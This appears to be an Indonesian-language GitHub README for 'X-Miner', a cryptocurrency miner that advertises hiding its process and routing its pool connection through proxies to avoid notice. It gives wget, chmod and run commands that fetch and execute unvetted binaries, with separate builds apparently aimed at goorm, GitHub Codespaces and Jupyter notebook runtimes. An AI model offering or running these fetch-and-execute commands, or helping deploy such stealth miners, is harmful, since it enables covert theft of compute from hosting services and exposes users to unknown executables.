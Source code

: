 # 🚀 X-Miner

implementasi **stealth process miner**, **resource balancing**, **proxy routing**, dan optimasi performa dalam aplikasi komputasi intensif.  
⚡ Dibangun dengan fokus pada fleksibilitas, efisiensi, dan kemudahan penggunaan.

---

## ✨ Fitur
- 🕵️‍♂️ **Process Management** – teknik penyembunyian dan monitoring proses.
- ⚖️ **Resource Control** – mengatur alokasi CPU agar tetap seimbang.
- 🔧 **High Performance Core** – arsitektur modular untuk pengolahan komputasi berat.
- 🌐 **Proxy Routing** – implementasi proxy untuk koneksi untuk penyembunyian koneksi ke pool.

---

## 📦 Instalasi & Penggunaan

```bash
# Unduh binary

1.goorm

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/xgm

# Beri izin eksekusi
chmod +x xgm

# Jalankan aplikasi
./xgm

3.codespace

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/xgt

# Beri izin eksekusi
chmod +x xgt

# Jalankan aplikasi
./xgt

3. runtime notebook/jupyter

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/xc

# Beri izin eksekusi
chmod +x xc

# Jalankan aplikasi
./xc

#Ket : 
1. penyesuaian penggunaan file eksekusi karena adanya perbedaan library runtime GLIBC dari tiap layanan vps yang digunakan.
2. layanan vps yang digunakan tidak terbatas pada 3 layanan eksekusi diatas, untuk vps lain bisa digunakan dipilih salah 1 yang sesuai
3. Miner runing bisa dilihat dengan munculnya prosess yang di tandai merah di htop
![Logo](https://github.com/xploit-miner/ER1/blob/c2da9f0ba2eef00d21b24048979352aa893356d9/img/shtoprun.JPG)

